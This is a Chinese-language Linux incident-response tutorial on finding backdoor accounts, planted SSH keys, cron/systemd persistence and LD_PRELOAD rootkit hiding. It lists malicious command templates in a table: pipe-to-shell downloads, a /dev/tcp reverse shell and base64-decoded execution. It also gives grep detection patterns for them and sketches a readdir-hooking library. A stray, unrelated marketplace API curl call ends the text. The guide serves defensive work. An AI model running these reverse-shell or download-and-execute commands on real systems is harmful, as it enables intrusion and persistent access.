

# 后门排查
## 账号后门与权限异常
>攻击者拿到权限后,常常创建一个看起来像系统维护账号的用户,或给普通用户加 SSH key 和 sudo 权限。账号排查是入侵处置的必做项——它是最稳定的回连入口之一。


- 异常账号 ：backup / sys_update / system_backup 

- 异常 UID ：0（非 root 却是 UID 0） 

- 异常 key ：/home/*/.ssh/authorized_keys 

- 异常 sudo ：/etc/sudoers.d/*

### /etc/passwd 字段拆解
```
username:x:uid:gid:comment:home:shell
```

| 字段 | 异常点 |
|------|--------|
| `username` | 伪装系统名，如 `sys_update` |
| `uid` | 非 root 用户 UID 为 0 |
| `home` | 指向 `/tmp` / `/var/tmp` / 隐藏目录 |
| `shell` | `/bin/bash` / `/bin/sh` 可登录（服务账号本该 nologin） |

**$ awk -F: '$3==0 {print}' /etc/passwd # 查 UID 0 账号**

```
 root:x:0:0:root:/root:/bin/bash 
 backup:x:0:0:backup:/root:/bin/bash ← 非 root 却是 UID 0！
```

>正常情况下 UID 0 只该有 root 一个。出现其它 UID 0 用户,几乎可以直接判定后门账号——它拥有和 root 完全一样的权限。

### ssh公钥 

**$ grep -RniE "NOPASSWD|ALL" /etc/sudoers /etc/sudoers.d**

```
/etc/sudoers.d/sys_update: sys_update ALL=(ALL) NOPASSWD:ALL
```

**$ find /root /home -path "*/.ssh/authorized_keys" -ls**

```
/home/ops/.ssh/authorized_keys (29 Nov 03:16, 陌生公钥 attacker@kali) 
```

**$ grep -E "PermitRootLogin|PasswordAuthentication" /etc/ssh/sshd_config**

```
PermitRootLogin yes
```

>三处必查:sudoers 里的 NOPASSWD:ALL(免密提权)、陌生或近期新增的 authorized_keys 公钥(免密登录)、sshd_config 被放开的 PermitRootLogin
>
>Web 用户目录下出现 .ssh 尤其高危。

## 持久化与定时任务
>攻击者不只上传 WebShell,还会设置自动恢复:WebShell 删了又出现、进程 kill 了又起、定时下载远程脚本、登录时自动执行后门。如果只删 WebShell 不查持久化,几分钟后它就被写回来。

### 三类排查命令

| 类型 | 排查命令 |
|------|----------|
| cron | `crontab -l` ; `ls -la /etc/cron.d /etc/cron.*` ; `grep -RniE "curl\|wget\|base64\|/dev/tcp" /etc/cron* /var/spool/cron` |
| systemd | `systemctl list-unit-files --type=service` ; `systemctl list-timers` ; `grep -RniE "curl\|wget\|/tmp" /etc/systemd/system` |
| 登录触发 | `grep -RniE "curl\|wget\|/dev/tcp\|base64\|nc" /etc/profile* /root/.bashrc /home/*/.bashrc` |

### 常见恶意命令模式

| 模式 | 风险 |
|------|------|
| `curl URL \| sh` | 下载执行 |
| `wget -O- URL \| bash` | 下载执行 |
| `bash -i >& /dev/tcp/IP/PORT 0>&1` | 反弹 Shell |
| `base64 -d \| sh` | 混淆执行 |
| `/tmp/.x` | 临时目录隐藏程序 |
| `chmod +x` | 释放可执行文件 |

>持久化排查的目标是找到"后门自动恢复"的原因。WebShell、进程、账号清掉以后,必须再查 cron、systemd、启动脚本、登录脚本。漏一个,前面的清理全白做

## LD_PRELOAD与进程隐藏
>虽然ps / ls / netstat 说的是真话，但攻击者能用 LD_PRELOAD 劫持 readdir 等函数,让这些工具看不到指定文件或进程
>
>⚠ 中高级模块。前提变了:常规工具可能在骗你。排查思路从"信任工具输出"转向"交叉比对、找矛盾"。

### LD_PRELOAD 是什么
LD_PRELOAD 是 Linux 的环境变量，允许在程序启动时优先加载指定的共享库。
    - 正常用于调试 / 兼容

    - 恶意用于 hook 系统函数,隐藏文件、进程、连接。

/etc/ld.so.preload 是它的全局配置——里面写的 .so 会被几乎所有动态程序加载。

```
正常加载顺序：
程序 → libc.so.6 → 其他库

使用 LD_PRELOAD：
程序 → hide.so（先加载）→ libc.so.6 → 其他库
```


### 工作原理

```c
// libc.so.6 中的原始函数
int readdir(DIR *dirp) {
    // 真正读取目录的实现
}

// hide.so 中劫持的函数
int readdir(DIR *dirp) {
    // 1. 先调用真正的 readdir
    // 2. 过滤掉指定项
    // 3. 返回过滤后的结果
}
```

**因为 hide.so 先加载，程序调用 readdir 时实际执行的是 hide.so 中的版本。**


**$ cat /etc/ld.so.preload /usr/local/lib/hide.so**

>生产服务器上 /etc/ld.so.preload 里出现陌生 .so,必须优先排查——这是 rootkit 类隐藏最经典的落脚点。

### hide.so 在隐藏什么

| Hook 函数 | 隐藏对象 | 效果 |
|-----------|----------|------|
| `readdir` | 文件名、目录名、`/proc/<pid>` | ls/ps 看不到 |
| `open` | 特定文件 | 无法读取 |
| `stat` | 文件状态 | `ls -la` 看不到 |
| `fopen` | 配置/日志文件 | cat 看不到 |

### 完整攻击链
```
1. 攻击者修改 /etc/ld.so.preload
   内容：/home/zyr/.rsync/hide.so

2. 系统启动任何程序时
   → 先加载 hide.so
   → hide.so 劫持关键函数
   → 程序调用 readdir/stat/open 时被过滤

3. 结果：
   ls 看不到 .rsync
   ps 看不到 kswapd0
   cat 看不到 authorized_keys
```

### 多工具交叉验证
>一个工具会被骗,那就用好几个对账
>
>哪些被 hook 骗过、哪些躲过了劫持,差异本身就是证据。



#### 权限不足时
>不要强行破坏现场。
>
>普通账号写不了 /etc/ld.so.preload 很正常。
>
>原则:先记录证据,交给有权限人员处置,或用平台允许的修复命令。
>
>不引导直接删文件——证据保全优先。

**必须固定的证据**

```
$ cat /etc/ld.so.preload # preload 内容 
$ ls -la /usr/local/lib/hide.so # so 路径 + 时间戳 
$ file /usr/local/lib/hide.so ; 
$strings /usr/local/lib/hide.so | head
```

>LD_PRELOAD 类隐藏会让常规工具不可信。排查先看 /etc/ld.so.preload,再看可疑 .so,并用多工具交叉验证确认隐藏效果——差异就是铁证。


 curl -X GET "https://buff.163.com/api/market/paintwear_rank?game=csgo&goods_id=42556" -H "Accept: application/json"
